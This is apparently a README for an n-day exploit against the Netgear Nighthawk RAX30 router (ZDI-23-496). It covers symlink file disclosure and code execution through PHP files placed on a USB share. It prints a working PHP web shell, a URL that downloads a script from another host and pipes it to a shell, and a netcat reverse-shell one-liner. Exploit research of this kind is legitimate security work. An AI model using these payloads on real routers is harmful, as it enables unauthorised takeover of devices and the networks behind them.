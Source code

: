 # Netgear Nighthawk RAX30 - Nday for ZDI-23-496

## Target Bugs

- ZDI-23-496: `lighttpd` misconfiguration -> RCE

Target firmware/patch versions:
- Prepatch: 1.0.9
- Patched: 1.0.10

## Confirmation and Exploits

### Symlink Info Disclosure

Creating symlinks that point to other files on the device filesystem on a mounted USB device allow
for LFI when accessing the symlink from the webUI. As mounted drive files are accessible without
authentication by default, this provides for trivial LFI.

After connecting the USB drive to the router, the files become visible at
`http://<routerip>/shares/`.

The script `mk-lfi-link.sh` can be used to create a symlink on a locally mounted USB device that can
then be mounted on a vulnerable device.

### RCE via PHP Files

PHP files present on the mounted USB drive are not properly handled, allowing for execution of
arbitrary PHP code. This can be leveraged to run system commands to get more generic arbitrary code
execution.

The file `shell.php` provides a web shell that allows for passing arbitrary system commands via URL
parameters using this code:

```
<?php echo system($_GET['cmd']); ?>
```

This command proxy can then be used to download and execute the reverse shell script in
`reverse.sh`.

```
http://192.168.1.1/shares/R_Drive/shell.php?cmd=curl%20192.168.1.2:8000/reverse.sh|/bin/sh
```

Reverse shell script:
```
#!/bin/sh
rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.2 1337 >/tmp/f
```

